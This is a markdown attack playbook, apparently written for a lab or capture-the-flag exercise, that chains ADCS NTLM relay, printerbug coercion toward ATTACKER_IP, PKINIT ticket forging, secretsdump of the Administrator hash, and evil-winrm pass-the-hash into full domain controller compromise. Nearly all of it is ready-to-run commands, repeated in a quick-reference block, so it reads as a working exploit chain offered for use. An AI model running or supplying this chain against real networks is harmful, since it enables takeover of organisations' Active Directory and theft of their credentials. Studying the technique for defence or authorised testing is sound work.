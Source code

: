 # ADCS Relay → Machine Cert → PKINIT TGT → DC Compromise

**Scenario:** Active Directory Certificate Services (ADCS) misconfigurations allow NTLM relay to request machine certificates. With these, we obtain Kerberos TGTs (via PKINIT) and escalate to Domain Admin.

---

## Flow
1) **Run ntlmrelayx** against ADCS web enrollment (`certsrv`).  
2) **Trigger coercion** (printerbug, PetitPotam, etc.) from DC to attacker → relay to ADCS.  
3) **Obtain .pfx cert** for `DC01$`.  
4) **Use PKINITtools** → `gettgtpkinit.py` → craft Kerberos TGT.  
5) **Export ccach** → confirm ticket with `klist`.  
6) **Use secretsdump with -k -no-pass** to dump Administrator hash.  
7) **Evil-WinRM** with PTH to fully compromise.  

References: impacket-ntlmrelayx, printerbug.py, PKINITtools, oscrypto, secretsdump, evil-winrm. 【42†playbook2.md】

---

## Setup & OPSEC
- Ensure no local conflicts on ports 80/445/88.  
- Work from venv for PKINITtools.  
- Have a staging dir `/loot/adcs`.  

---

## NTLM Relay → ADCS Enrollment
### ntlmrelayx with ADCS support
```bash
sudo impacket-ntlmrelayx -t http://TARGET/certsrv/certfnsh.asp \
  --adcs -smb2support --template KerberosAuthentication
```
This sets up SMB + HTTP listeners and targets the ADCS web endpoint.

### Coerce DC Authentication
```bash
# Grab coercion script
wget https://raw.githubusercontent.com/dirkjanm/krbrelayx/master/printerbug.py

# Trigger auth from DC01
python3 printerbug.py DOMAIN/user:pass@DC01_IP ATTACKER_IP
```
If successful, `ntlmrelayx` issues a certificate and drops `DC01$.pfx`.

---

## Convert Certificate → Kerberos TGT
### PKINITtools
```bash
git clone https://github.com/dirkjanm/PKINITtools.git && cd PKINITtools
python3 -m venv .venv && source .venv/bin/activate
pip3 install -r requirements.txt
pip3 install -I git+https://github.com/wbond/oscrypto.git
```

### Request TGT
```bash
python3 gettgtpkinit.py -cert-pfx ../DC01$.pfx \
  -dc-ip DC01_IP 'domain.local/dc01$' /tmp/dc.ccache
```
This generates a valid Kerberos TGT and saves it.

---

## Kerberos Environment Setup
### Export Ticket
```bash
export KRB5CCNAME=/tmp/dc.ccache
klist
```
Expect to see `krbtgt/domain.local`. 

### Kerberos Packages
```bash
sudo apt-get install krb5-user -y
echo "DC01_IP dc01.domain.local" | sudo tee -a /etc/hosts
sudo nano /etc/krb5.conf
# set default_realm = DOMAIN.LOCAL and kdc = dc01.domain.local
```

---

## Exploitation
### Dump Administrator Hash
```bash
impacket-secretsdump -k -no-pass -dc-ip DC01_IP \
  -just-dc-user Administrator 'DOMAIN/DC01$'@DC01.DOMAIN.LOCAL
```
Example output shows Administrator NTLM hash.

### Pass-the-Hash  WinRM
```bash
evil-winrm -i dc01.domain.local -u Administrator -H <NTLM_HASH>
```
Shell as Domain Admin.

### Grab Flag
```powershell
type C:\Users\Administrator\Desktop\flag.txt
```

---

## Quick Reference
```bash
# Relay setup
impacket-ntlmrelayx -t http://DC/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication

# Coercion
python3 printerbug.py DOMAIN/user:pass@DC_IP ATTACKER_IP

# PKINIT
python3 gettgtpkinit.py -cert-pfx ../DC01$.pfx -dc-ip DC_IP 'domain.local/dc01$' /tmp/dc.ccache
export KRB5CCNAME=/tmp/dc.ccache
klist

# Dump secrets
impacket-secretsdump -k -no-pass -dc-ip DC_IP -just-dc-user Administrator 'DOMAIN/DC01$'@DC01.DOMAIN.LOCAL

# WinRM
evil-winrm -i dc01.domain.local -u Administrator -H <NTLM_HASH>
```

---

## Tool Links
- impacket-ntlmrelayx — https://github.com/fortra/impacket  
- printerbug — https://github.com/dirkjanm/krbrelayx  
- PKINITtools — https://github.com/dirkjanm/PKINITtools  
- oscrypto fix — https://github.com/wbond/oscrypto  
- evil-winrm — https://github.com/Hackplayers/evil-winrm  
